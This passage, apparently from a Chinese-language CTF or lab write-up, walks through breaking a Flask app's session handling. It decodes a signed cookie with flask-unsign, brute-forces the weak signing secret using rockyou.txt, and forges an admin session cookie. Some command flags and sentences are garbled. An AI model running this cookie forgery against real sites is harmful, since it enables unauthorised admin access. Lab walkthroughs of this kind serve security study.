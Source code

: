 使用 flask-unsign 解密  
flask-unsign --decode--cookie'.eJwlx0EKgCAQBdCrDH\_torU3iZCQHC0wBUcpEO-e0OrxOnYfrZws0FsH1QmkHQeLQGHNjWxhSvmhmENgR1eCGUbh7z6ra2ms0IRLsjdDY3mdx\_gAqEYfRw.YkOi3g.uAoRysM25q2FzuEUmYMaCRMQ4aA'{'\_flashes': \[('success', 'You are now logged in')\], 'logged\_in': True, 'username': '0xdf'}  
cookie:eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Yxvarg.S9d5IqA4nL7CBjzYp4CfnG8IoLk  
命令：flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Yxvarg.S9d5IqA4nL7CBjzYp4CfnG8IoLk'

[![](assets/1701678249-e6a7b06003985ff7f0658af98d05d305.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130213557-64bd47d2-8f85-1.png)

使用 flask-unsign. Flask cookie 使用秘密签名，因此在不知道该密码的情况下无法修改它们。可以进行暴力破解来测试弱密码，并通过 flask-unsign 来提供该功能。--unsign-w，运行它会 rockyou.txt 返回错误：

[![](assets/1701678249-9091cca855654a9f035b4b0992d6fbdc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130213610-6c4d869c-8f85-1.png)

它似乎将文件中的“123456”通过添加--no-lteral-eval. 我将添加它，它可以很快找到秘密：

[![](assets/1701678249-615d8183ad4cd3f05d5cd0f897224106.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130213619-718164ee-8f85-1.png)

## 以管理员身份访问测试

生成一个管理员的 cookie，然后替换到浏览器当中去。  
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YxvdIw.PpnxZ3h8WkIo\_5JMIfhCDD7hXo8

[![](assets/1701678249-6497712b30d3c0d15332fae0036ffb69.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130213626-75ec48fa-8f85-1.png)
